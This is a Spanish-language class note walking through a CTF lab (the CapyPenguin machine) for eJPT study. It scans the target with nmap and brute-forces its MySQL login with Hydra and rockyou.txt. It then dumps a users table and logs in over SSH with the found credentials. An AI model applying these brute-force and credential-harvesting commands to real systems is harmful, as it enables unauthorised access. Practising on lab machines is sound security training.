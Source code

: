 
---
- TAG: #Ataques #Bases-de-datos #Fuerza-Bruta 
---
# Ataques de Fuerza Bruta a Bases de Datos MySQL con Hydra

En esta clase, aprenderemos a realizar ataques de fuerza bruta a bases de datos MySQL utilizando la herramienta **Hydra**. Vamos a practicar con la máquina **CapyPenguin**, que se encuentra en los siguientes recursos:

- [Máquina CapyPenguin](https://drive.google.com/file/d/1kJsjmttn7McRuj8Tx71ootLMnTnaIWo4/view)
- [CTF Comunidad Hacking Ético](https://ctf.comunidadhackingetico.es/challenges?category=medio)

## Preparativos

1. **Descargar y Configurar la Máquina:**
   - Descargamos el archivo `.ova` de la máquina **CapyPenguin**.
   - Damos doble clic en el archivo para importarlo a VirtualBox.
   - Verificamos que la configuración de red esté en "Adaptador puente".
   - Iniciamos la máquina.

2. **Localizar la Máquina:**
   - Realizamos un escaneo para encontrar la IP de la máquina víctima:
     ```bash
     arp-scan -I wlan0 --localnet
     ```
   - Comprobamos la conectividad con un `ping`.
   - Escaneamos los puertos con **nmap**:
     ```bash
     nmap -p- -sS -sC -sV --open --min-rate=5000 -v -n -Pn 1.2.3.4
     ```
   - Identificamos que el puerto **3306** está abierto, que comúnmente es utilizado por **MySQL**.

## Encontrar el Usuario y Contraseña para MySQL

1. **Buscar Información en la Página Web:**
   - El puerto **80** está abierto, así que investigamos la página web.
   - Encontramos un mensaje en el código fuente que indica un posible usuario:
     ```html
     <p>hola<strong>capybarauser</strong>, esta es una web de capybaras.</p>
     ```

2. **Ataque de Fuerza Bruta con Hydra:**
   - Utilizamos **Hydra** para realizar el ataque de fuerza bruta en el puerto **3306**:
     ```bash
     hydra -l capybarauser -P /usr/share/wordlists/rockyou.txt mysql://1.2.3.4
     ```

   - Si **Hydra** tarda mucho en encontrar la contraseña, es posible que esté al final del archivo `rockyou.txt`. Para acelerar el proceso, invertimos el archivo:
     ```bash
     tac /usr/share/wordlists/rockyou.txt > rockyou_invertido.txt
     ```

   - Eliminamos espacios y caracteres no legibles:
     ```bash
     cat rockyou_invertido.txt | tr -d ' ' > diccionario_sin_espacios.txt
     ```

   - Ejecutamos el ataque de fuerza bruta nuevamente con el diccionario modificado:
     ```bash
     hydra -l capybarauser -P diccionario_sin_espacios.txt mysql://1.2.3.4
     ```

3. **Acceso a la Base de Datos MySQL:**
   - Con la contraseña encontrada, accedemos a MySQL:
     ```bash
     mysql -h 1.2.3.4 -u capybarauser -p<contraseña>
     ```
   - En nuestro caso:
     ```bash
     mysql -h 1.2.3.4 -u capybarauser -pie168
     ```

## Exploración de la Base de Datos

1. **Mostrar las Bases de Datos:**
   ```mysql
   show databases;
   ```

2. **Seleccionar la Base de Datos de Interés:**
   ```mysql
   use pinguinasio_db;
   ```

3. **Mostrar las Tablas:**
   ```mysql
   show tables;
   ```

4. **Consultar las Columnas en la Tabla `users`:**
   ```mysql
   SELECT * FROM users;
   ```

   - Encontramos posibles usuarios y contraseñas en la tabla.

## Acceso a la Máquina a través de SSH

1. **Acceder con las Credenciales Encontradas:**
   - Si encontramos las siguientes credenciales:
     - Usuario: `mario`
     - Contraseña: `pinguinomolon123`
   - Accedemos a la máquina mediante SSH:
     ```bash
     ssh mario@1.2.3.4
     ```
   - Ingresamos la contraseña cuando se nos solicite y ya estaremos dentro de la máquina.

---

Con estos pasos, podrás realizar ataques de fuerza bruta a bases de datos MySQL utilizando **Hydra** y explorar las bases de datos para encontrar credenciales adicionales. Esta es una habilidad valiosa para el examen **eJPT** y para tus prácticas en ciberseguridad. ¡Buena suerte!

